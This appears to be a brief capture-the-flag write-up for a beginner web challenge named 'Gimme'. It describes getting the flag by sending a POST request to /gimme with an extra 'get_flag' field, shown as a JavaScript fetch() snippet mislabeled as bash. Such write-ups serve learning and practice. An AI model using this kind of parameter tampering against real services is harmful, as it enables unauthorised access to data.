 # Web: Web Basics: Gimme

## Description

Tried to make a request in console of type GET then I received the error 405, so GET wasn’t good. 

## Vulnerability

I made a request of type POST with payload of 35, but wasn’t enough.

## Exploitation

Then I added the payload ‘get_flag’ and then I got the flag. 

```bash
fetch("/gimme", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({
    name: "35",
    get_flag: "get_flag"
  })
})
.then(res => res.text())
.then(console.log)
.catch(console.error);
```
